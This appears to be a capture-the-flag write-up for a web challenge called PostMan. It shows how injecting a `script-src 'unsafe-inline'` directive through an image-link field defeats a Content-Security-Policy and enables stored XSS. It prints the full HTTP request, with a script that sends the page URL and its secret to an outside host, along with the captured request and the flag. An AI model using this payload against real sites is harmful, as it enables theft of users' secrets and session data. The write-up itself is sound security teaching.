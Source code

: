```yaml
---
title: "KipodAfterFree2019 Postman"
date: 2020-02-05T23:38:42+01:00
showDate: true
draft: false
tags: ["ctf","web","csp","csp injection","xss"]
---
```


PostMan 
===
##### [web, 70p, 12 solves]
> ```TLDR; simple XSS which was blocked by CSP. You needed to inject into CSP header to get XSS working.```

The application let user to create posts with a title and an image. Image had to be passed in form of a link. You could report post to the admin who will inspect it (typical XSS challange).    
Right of a bat I found simple XSS in title field `<script>alert(1)</script>`, but it was blocked due to CSP header that server set in the response:

```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 518
Content-Security-Policy: default-src 'self'; img-src https://i.imgur.com/SW3HsEm.png; connect-src *;
Set-Cookie: session=91ddc442-ea0c-47ef-bc81-9cbe057f01df; Expires=Sat, 25-Jan-2020 20:42:04 GMT; HttpOnly; Path=/
Server: Werkzeug/0.14.1 Python/3.8.0
Date: Wed, 25 Dec 2019 20:42:04 GMT
```

At that moment I realised that the link to the image is inserted into CSP header. My first thought was the header injection, but that lead me nowhere. Flask is smart enought to detect new lines in response headers.
After a while I thought about CSP injection. From the CSP header I knew that there were 3 policies defined, `default-src` , `img-src` for our image in the post and `connect-src` (not sure why that one is defined). The default policy allows for the content only from the challenge site origin. When `script-src` policy isn't defined, it inherits from default one, so that why XSS from earlier was blocked. To make it work, I needed to somehow define `script-src` policy with `unsafe-inline` value, which allows for html script tag usage (`<script></script>`).
And that's exactly what I did. I injected `script-src` policy into the link field. The final request looked like that (post data url decoded for better readability):

```http
POST / HTTP/1.1
Host: ctf.kaf.sh:3030
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.kaf.sh:3030/
Content-Type: application/x-www-form-urlencoded
Content-Length: 172
Connection: close
Cookie: session=91ddc442-ea0c-47ef-bc81-9cbe057f01df
Upgrade-Insecure-Requests: 1
    
title=<script>document.location = 'http://myserver.local/?' + document.URL;</script>&pictureSrc=https://i.imgur.com/SW3HsEm.png; script-src 'unsafe-inline'    
```

XSS was finally triggered. During CTF I used XSS hunter for the payload since I didn't knew what or where to look for the flag, but here I posted more direct solution that will send whole URL. I reported that post to the admin and after few seconds I've got that request

```http
GET /?http://ctf.kaf.sh:3030/post/5?secret=7NKuGbDnFEWijCXtmPpTQVegzk95yRS6 HTTP/1.1
Host: myserver.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

When I visited `http://ctf.kaf.sh:3030/?secret=7NKuGbDnFEWijCXtmPpTQVegzk95yRS6`, I've got the flag:
```
KAF{c5P_1nJ3c710ns_4r3_FUn}
```
